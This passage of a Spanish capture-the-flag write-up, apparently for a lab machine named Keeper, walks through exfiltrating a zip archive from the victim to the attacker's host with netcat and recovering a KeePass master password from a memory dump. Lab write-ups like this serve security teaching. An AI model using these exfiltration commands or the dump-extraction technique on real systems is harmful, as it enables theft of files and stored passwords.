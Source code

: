 En el directorio `/home` de `lnorgaard` está este archivo 

```
www-data@keeper:/home/lnorgaard# ls
RT30000.zip  user.txt
```

Nos `enviamos` este `archivo` a nuestra máquina, lo `primero` es `ponernos` en `escucha`

```
# nc -l -p 1234 > RT30000.zip
```

Nos enviamos el archivo `desde` la `máquina víctima`

```
www-data@keeper:/home/lnorgaard# nc 10.10.16.16 1234 < RT30000.zip
```

En nuestra máquina `descomprimimos` el `archivo` y obtenemos una `base de datos` de `Keepass` donde se `almacenan` las `contraseñas` y un `dump` de `keepass`

```
# unzip RT30000.zip 
# ls
 KeePassDumpFull.dmp   passcodes.kdbx   RT30000.zip
```

He estado buscando una `vulnerabilidad` en `Keepass` que nos permita `obtener` los `datos` de un `dump`, y he encontrado este vídeo explicativo [https://www.youtube.com/watch?v=6j8aEFNOQbk&t=276s](https://www.youtube.com/watch?v=6j8aEFNOQbk&t=276s). Al ejecutar lo que se muestra en el vídeo he obtenido una `credencial` de forma `parcial`

```
# /dotnet run KeePassDumpFull.dmp
Password candidates (character positions):
Unknown characters are displayed as "●"
1.:	●
2.:	ø, Ï, ,, l, `, -, ', ], §, A, I, :, =, _, c, M, 
3.:	d, 
4.:	g, 
5.:	r, 
6.:	ø, 
7.:	d, 
8.:	, 
9.:	m, 
10.:	e, 
11.:	d, 
12.:	, 
13.:	f, 
14.:	l, 
15.:	ø, 
16.:	d, 
17.:	e, 
Combined: ●{ø, Ï, ,, l, `, -, ', ], §, A, I, :, =, _, c, M}dgrød med fløde
```

La contraseña está incompleta así que la he pegado en google a ver que me sale y parece que es una comida típica noruega. La contraseña sería `rødgrød med fløde`
